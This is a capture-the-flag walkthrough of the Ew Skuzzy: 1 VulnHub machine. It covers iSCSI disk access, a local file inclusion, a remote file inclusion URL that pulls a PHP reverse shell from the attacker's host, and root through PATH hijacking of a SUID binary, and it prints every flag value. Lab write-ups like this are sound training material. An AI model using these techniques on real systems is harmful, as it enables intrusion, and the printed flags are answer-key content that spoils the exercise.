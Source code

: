 ```yaml
---
layout: post
title:  "Ew Skuzzy: 1"
excerpt: CTF by @vortexau
tags: [vulnhub, ctf, walkthrough]
---
```


# Ew Skuzzy: 1

## Goal
flags
uid=0(root) gid=0(root) groups=0(root)

## Download
[https://www.vulnhub.com/entry/ew_skuzzy-1,184/](https://www.vulnhub.com/entry/ew_skuzzy-1,184/)

## Walkthrough
Initial nmap shows ssh on 22, web on 80, and iscsi on 3260
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-nmap-002.png)
<br><br>

Looking at the website we get a hint to scan the website using dirbuster
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-home-001.png)
<br><br>

dirb results
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-dirb-003.png)
<br><br>
*snippet of dirb results

All of the dirb results were junk except the last long URL
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-dirb-004.png)
<br><br>

Looking at the page, oh hello Lionel
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-hello-005.png)
<br><br>

Let's look at the page source and there is a long commented string (actually strings)
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-hellosource-006.png)
<br><br>

Base64 decode and Lionel trolled us
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-hellobase64-007.png)
<br><br>

With nothing else, we go back to see what we can find from the open iscsi port on 3260

Wait, ew skuzzy...iscsi....oh I get it :)

Google is always your friend, which yielded this helpful page
https://www.pentestpartners.com/blog/an-interesting-route-to-domain-admin-iscsi/

After installing iscsi tools I'm able to discover and connect to the target

iscsiadm -m node -p 192.168.0.130 -l iqn.2017-02.local.skuzzy:storage.sys0
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-iscsi-008.png)
<br><br>

fdisk reveals a new disk available at /dev/sdb
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-fdisk-009.png)
<br><br>

First we create the folder to mount to /mnt/skuzzy and then we mount and list the folder contents.  Look at that, flag1 is revealed
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-flag1-010.png)
<br><br>
flag1{c0abc15976b98a478150c900ebb0c86f0327f4dd}

Looking back at the mounted disk contents we see what appears to be another mountable disk called bobsdisk.dsk. Creating the folder, mounting, and listing we find an email file ToAlice.eml and an encrypted file ToAlice.csv.enc
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-bobsdisk-011.png)
<br><br>

Looking at the ToAlice.eml, there's a lot of useful information and some misleading in my opinion about how to decrypt the ToAlice.csv.enc file.  Also flag2 is revealed :)
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-flag2-012.png)
<br><br>
flag2{054738a5066ff56e0a4fc9eda6418478d23d3a7f}

So to decrypt the ToAlice.csv.enc file the email gives you everything you need including the password.  It hints that you need to use RockYou, but the password is right there and with that flag3 is revealed and more URLs

openssl enc -d -aes256 -in /mnt/bob/ToAlice.csv.enc -out /mnt/bob/ToAlice.csv -k supercalifragilisticoespialidoso
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-flag3-013.png)
<br><br>

flag3{2cce194f49c6e423967b7f72316f48c5caf46e84}

Now back to the webs and the URLs we found. First one has some sweet scrolling marquee
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-marquee-014.png)
<br><br>

Source code reveals more long commented strings
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-marqueesource-015.png)
<br><br>


Base64 of strings reveal a Seinfeld troll :P
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-marqueebase64-016.png)
<br><br>


Next URL looks more interesting and states in the title we're on the right track
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-017.png)
<br><br>

Looking at the links, first three are nothing of importance 

welcome.php
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-018.png)
<br><br>

flag.php
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-019.png)
<br><br>

party.php also includes link out to http://cultofthepartyparrot.com
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-020.png)
<br><br>

The last link reader.php has a new link called Load Feed. When clicked it actually calls out to a file located on the local file system named data.txt
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-021.png)
<br><br>

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://127.0.0.1/c2444910794e037ebd8aaf257178c90b/data.txt
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-022.png)
<br><br>

From here it looks like we might be able to do some LFI, so back to Google and we find this helpful site for a reminder :) https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

Giving it a try on the data.txt file and we're giving a long string
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-phplfi-023.png)
<br><br>

Base64 on the string reveals the source code and it seems that normal php tags use#php## instead
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-database64-024.png)
<br><br>

With that I started checking all the .php files associated with the links and flag.php revealed flag4 also told that we'll need it later for shell access
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-flag4-025.png)
<br><br>
flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}

Base64 of reader.php was the entire source code, but hints that we need to provide a key
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-reader-026.png)
<br><br>
*snippet of reader.php

Trying RFI to Kali and told that we need a key for authentication 

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://192.168.0.131
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-keyneeded-027.png)
<br><br>

Before anything I prep the php reverse shell on Kali, but making sure that I replace the starting and ending php syntax to#php##
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-phpreverse-028.png)
<br><br>

Using flag4 as the key and calling our php reverse shell we now have a limited reverse shell :)

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&key=flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}&url=http://192.168.0.131/bzyo.php
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-reverseshell-029.png)
<br><br>

Privilege escalation took me some time as I was stuck on finding something with iscsi.  After going through the go to privilege escalation guide, the file alicebackup stood out as the other key files included alice in the name
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-suid-030.png)
<br><br>

Looking closer at the file it's executable so I run it and it runs the command /usr/bin/id and attempts an ssh connection
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-alicebackup-031.png)
<br><br>

Spent some time looking at HOSTALIASES, but that obviously didn't pan out so I took a step back...

I know that alicebackup runs id utility after executed as it prints out that root is running the program. However it's probably not using a full path and relative instead
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-pathid-032.png)
<br><br>

Let's copy /bin/sh to /tmp folder and rename it id and then add /tmp to the PATH
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-newid-033.png)
<br><br>

Running alicebackup now triggers id utility at /tmp folder, but instead of giving the user it spawns a root shell and flag5 is revealed in the root folder :)
<br>![alt text](../vulnhub/2017/Ew_Skuzzy_1/imgs/skuzzy-flag5-34.png)
<br><br>
flag5{42273509a79da5bf49f9d40a10c512dd96d89f6a}
